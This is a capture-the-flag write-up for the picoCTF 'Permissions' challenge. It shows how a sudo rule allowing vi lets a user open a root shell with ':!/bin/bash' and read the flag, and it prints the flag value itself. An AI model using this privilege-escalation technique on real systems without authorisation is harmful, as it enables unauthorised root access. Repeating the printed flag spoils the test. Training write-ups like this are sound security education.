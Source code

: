 # Permissions

This challenge gives us a remote machine to SSH into with the task of reading our flag from a root folder.

## Solution

Step one of course is to use the provided credentials to SSH to the remote host.

Once we login we can check out users permissions using `sudo -l`.
```
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

The notable part here is that we have access to vi which we can use to escalate our privileges.

Since vi in command mode allows us to execute terminal commands, and we can run vi with root permissions via sudo, if we ask it to open a shell it will open as the root user.

To make this happen lets run `sudo vi <somefilename-notimportant>`. 
Enter the provided user password, and then press esc to enter command mode for vi.

Lets put in `:!/bin/bash` as our command. The `:` is just vi command syntax, and the rest is just to call a shell.

```
picoplayer@challenge:/$ sudo vi getroot
[sudo] password for picoplayer: 

root@challenge:~# whoami
root
root@challenge:~# ls -la
total 12
drwx------ 1 root root   23 Aug  4 21:33 .
drwxr-xr-x 1 root root   71 Sep 18 02:48 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4 21:33 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:~# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_021d10ab}
```

Now we are operating as the root user, and have full access to simply cat out our flag:
`picoCTF{uS1ng_v1m_3dit0r_021d10ab}`

### References

https://medium.com/@pettyhacks/linux-privilege-escalation-via-vi-36c00fcd4f5e
https://gtfobins.github.io/gtfobins/vi/


